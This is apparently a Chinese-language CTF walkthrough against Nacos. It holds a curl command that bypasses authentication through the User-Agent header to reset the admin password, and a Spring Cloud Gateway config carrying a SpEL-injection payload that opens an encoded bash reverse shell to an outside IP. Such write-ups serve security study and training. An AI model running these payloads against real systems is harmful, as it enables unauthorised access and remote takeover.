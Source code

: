 首先的问题就是如何进入 nacos 后台

1、利用上文所给出的利用 bp 实现用户密码重置

2、利用用 UA 绕过鉴权的那个改 nacos 用户的密码可进入 nacos 后台

```plain
curl -X PUT 'http://IP:PORT/nacos/v1/auth/users?accessToken=' -H 'User-Agent:Nacos-Server' -d 'username=nacos&newPassword=root'
```

将给的 jar 包放到 jad，看题目给的附件来代码审计，根据上文的讲解，可以去查找`bootstrap.yml`文件来分析。

[![](assets/1700442594-c4ce0798f26e91db9882172d41ed9ae3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155650-07925c92-85e8-1.png)

发现了 backendservice 的 DataID 值：backcfg

综合现在得到的信息，下一步就该在 nacos 配置中心里面新建一个这样的配置让后台服务调用，且必须是 json 格式的。

根据上文，构造出**json**格式的 payload

```plain
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [{
                        "id": "aaa",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/test/**"],
                        "filters": [{
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==}|{base64,-d}|{bash,-i}\").getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```